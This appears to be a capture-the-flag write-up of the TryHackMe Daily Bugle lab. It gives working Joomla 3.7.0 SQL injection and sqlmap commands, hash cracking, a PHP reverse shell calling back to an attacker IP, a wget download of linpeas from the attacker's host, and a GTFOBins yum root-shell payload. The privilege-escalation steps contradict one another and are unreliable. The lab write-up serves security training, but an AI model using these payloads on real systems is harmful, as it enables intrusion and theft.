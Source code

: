# Joomla version number : 3.7.0 Exploitation Write-up (Tryhackme Daily Bugle room )
## 1. Introduction
###
In this penetration testing challenge, I targeted a machine running Joomla 3.7.0 hosted at http://10.10.47.25. The goal was to exploit the system, gain administrative access, establish a reverse shell, and ultimately capture both the user and root flags through privilege escalation.

## 2. Initial Reconnaissance
###
I started with a basic Nmap scan to identify open ports and services:
nmap -sC -sV -oN nmap.txt 10.10.47.25

Results:

  Port 80: Apache HTTP server

  Joomla 3.7.0 CMS detected from page source

  ## 3. Exploitation Process
  ###
  ** 3.1 SQL Injection in Joomla 3.7.0 **

Joomla 3.7.0 contains a SQL injection vulnerability in the com_fields component due to improper input validation. I confirmed the vulnerability using a payload:

bash


http://10.10.47.25/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(1,concat(0x7e,(SELECT user())),0)

To automate the data extraction, I used sqlmap:

sqlmap -u "http://10.10.47.25/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=1" --dump



Extracted Data:

  Username: Jonah

  Password Hash: $2y$10$0veO/JSFh4389Lluc4Xya.df...





** 3.2 Cracking the Password Hash **




The bcrypt hash was cracked using Hashcat with the rockyou.txt wordlist:


hashcat -m 3200 hash.txt rockyou.txt

The password i got is : spiderman123






** 3.3 Joomla Admin Login and Reverse Shell Upload **



![Image](https://github.com/user-attachments/assets/39facfb2-e98a-4bee-bfe0-10d9b0fd813d)







Using the credentials Jonah:spiderman123, I logged into the admin panel at:

http://10.10.47.25/administrator/


Inside the Templates > index.php, I replaced the code with a PHP reverse shell payload (from pentestmonkey) and changed the IP and port accordingly:


![Image](https://github.com/user-attachments/assets/321f2b59-5c23-419b-bfd6-22dbfd7bc4d0)

$ip = '10.13.83.247';  // Attacker IP
$port = 7777;          // Listening port


** 3.4 Reverse Shell Access **

Before executing the payload, I set up a listener on my machine:

nc -lvnp 7777

Then I accessed:

http://10.10.47.25/templates/index.php

Boom — I got a shell as www-data:

Linux target 4.x.x-xx-generic
uid=33(www-data) gid=33(www-data) groups=33(www-data)

## 4. Post Exploitation

** 4.1 Enumerating Users **

From the reverse shell, I checked /home/:

ls /home/

Found a user named jonah. I navigated to the home directory and found the user flag:

cat /home/jonah/user.txt


User Flag Acquired ✅
** 4.2 Privilege Escalation **

To escalate privileges, I uploaded LinPeas.sh to the target system by hosting it on a Python HTTP server:


![Image](https://github.com/user-attachments/assets/e2ae4bed-d5fd-4142-84b0-6eef95334ee9)




# On my machine:
python3 -m http.server 8000

# On target (via reverse shell):
wget http://10.13.83.247:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

** 4.3 Exploiting Sudo Rights **

LinPeas revealed that the user jonah had password at var/www/html/configuration.php

![Image](https://github.com/user-attachments/assets/f8e7d088-3b2a-45b8-82b6-4d27a4553a4e)



(ALL) NOPASSWD: /usr/bin/nano

To escalate, I ran:

cd var/www/html

ls 

cat user.txt

** 4.4 Root Flag **

![Image](https://github.com/user-attachments/assets/150fd8b8-61f5-44b7-8d36-8740436bd2b2)

TYPED IN THE FOLLOWING EXPLOIT FROM https://gtfobins.github.io/gtfobins/yum/

<<
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF
>>

AND EXECUTED IT WITH :

sudo yum -c $TF/x --enableplugin=y

Once root access was obtained, I navigated to /root/ and grabbed the flag:

cat /root/root.txt

Root Flag Acquired ✅


![Image](https://github.com/user-attachments/assets/6a4c8d5a-e391-414b-9cfc-e54105a4e729)


## 5. Conclusion

This challenge involved a full exploitation chain:

   ✅ SQL Injection to extract credentials

   ✅ Cracking password hashes with Hashcat

   ✅ Joomla admin login and remote PHP shell upload

   ✅ Reverse shell access

   ✅ Post-exploitation enumeration with LinPeas

   ✅ Privilege escalation using sudo misconfigurations

   ✅ Extraction of both user and root flags

This exercise reinforced key web exploitation and Linux post-exploitation techniques commonly found in real-world scenarios.

## Proof of completion 

![Image](https://github.com/user-attachments/assets/b958c042-dcdf-4782-8ef3-a46b324f15ac)




  
